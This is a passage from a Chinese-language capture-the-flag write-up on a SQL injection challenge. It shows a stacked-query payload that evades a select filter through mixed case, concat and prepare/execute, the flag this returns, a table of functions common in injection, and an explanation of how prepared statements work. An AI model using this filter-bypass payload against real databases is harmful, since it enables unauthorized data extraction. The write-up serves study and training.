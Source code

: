 3. 使用大小写绕过，*1';sEt @sql=concat('s','elect \`flag\` from \`1919810931114514\`');prepare realsql from @sql;exEcute realsql;#*，网页返回内容如下

   ```php
   array(1) {
     [0]=>
     string(38) "flag{c168d583ed0d4d7196967b28cbd0b5e9}"
   }
   ```

4. 发现flag，flag{c168d583ed0d4d7196967b28cbd0b5e9}

## 独立思考

### 1. SQL注入有哪些常用的函数？

| 函数名 | 参数                        | 作用                                   |
| ------ | --------------------------- | -------------------------------------- |
| MID    | 字段名，开始位置，长度      | 从指定字段中提取字段的内容             |
| LIMIT  | 起始条号，条数              | 限制读取返回结果中从m条开始的n条数据   |
| CONCAT | str1,str2,str3,.......,strn | 连接一或多个字符串                     |
| COUNT  | 列名                        | 返回指定列的条数，NULL不计入在内       |
| RAND   |                             | 产生0~1的随机数                        |
| FLOOR  |                             | 向下取整                               |
| SUBSTR | str,start,length            | 截取字符串                             |
| ASCII  |                             | 返回字符串的ASCII码                    |
| LEFT   | str,length                  | 返回字符串从左开始的length长度的字符串 |
| ORD    | str                         | 返回第一个字符的ASCII码                |

SELECT用于从表中查数据，如果没有select无法查表内数据的，所以如果数据在表内，是一定可以找到办法绕过对select的过滤。

### 2. SQL预编译语句有什么用法？

简单情况下，SQL交互流程如下

1. 后端代码从请求中提取参数，拼接好SQL语句
2. 后端发送整个SQL语句给数据库处理
3. 数据库解析SQL语句、检查语法和语义
4. 数据库编译SQL语句生成代码
5. 执行数据库操作
6. 返回数据给后端程序

而预编译语句情况下，SQL交互流程如下

1. 后端代码把待编译的SQL语句准备好，每个变量用一个*?*代替，发送给数据库程序
2. 数据库对这条语句进行解析、检查、编译
3. 后端代码从请求中取出参数，依次setString到原语句对应位置，发送给数据库程序
4. 数据库程序只会把新传来的参数作为字符串处理，而不会作为SQL语句执行，因为SQL已经是预编译好的了。数据库程序根据传来的参数，进行数据库操作
5. 返回数据给后端程序

